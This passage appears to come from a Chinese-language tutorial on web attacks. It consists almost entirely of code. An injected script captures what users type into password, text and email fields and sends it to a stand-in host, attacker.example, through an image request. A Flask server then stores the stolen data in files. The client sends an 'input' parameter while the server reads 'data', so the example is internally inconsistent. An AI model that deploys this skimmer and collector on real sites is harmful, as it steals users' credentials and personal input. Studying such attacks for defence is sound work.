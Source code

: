 ```html hl:5,31,39

    // 立即执行信息收集
    stealInfo();

    // 监听用户输入（例如捕获用户在网站上输入的信息）
    document.addEventListener('change', function(e) {
        if(e.target.type === 'password' || e.target.type === 'text' || e.target.type === 'email') {
            const inputData = {
                type: e.target.type,
                name: e.target.name,
                value: e.target.value
            };
            
            // 发送用户输入数据
            const img = new Image();
            img.src = `https://attacker.example/collect?input=${encodeURIComponent(JSON.stringify(inputData))}`;
        }
    });
</script>
```

### 3.4. 攻击者的服务器端代码（示例）： `https://attacker.example/collect`

```python hl:24
# 攻击者的服务器 (Python + Flask)
from flask import Flask, request
import json
from datetime import datetime

app = Flask(__name__)

@app.route('/collect')
def collect():
    # 获取窃取的数据
    stolen_data = request.args.get('data')
    
    if stolen_data:
        # 解码数据
        data = json.loads(stolen_data)
        
        # 保存到文件
        timestamp = datetime.now().strftime('%Y%m%d_%H%M%S')
        filename = f'stolen_data_{timestamp}.json'
        
        with open(filename, 'w') as f:
            json.dump(data, f, indent=2)
    
    # 返回 1x1 透明 GIF
    return b'\x47\x49\x46\x38\x39\x61\x01\x00\x01\x00\x80\x00\x00\xff\xff\xff\x00\x00\x00\x2c\x00\x00\x00\x00\x01\x00\x01\x00\x00\x02\x02\x44\x01\x00\x3b'

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=80)
```
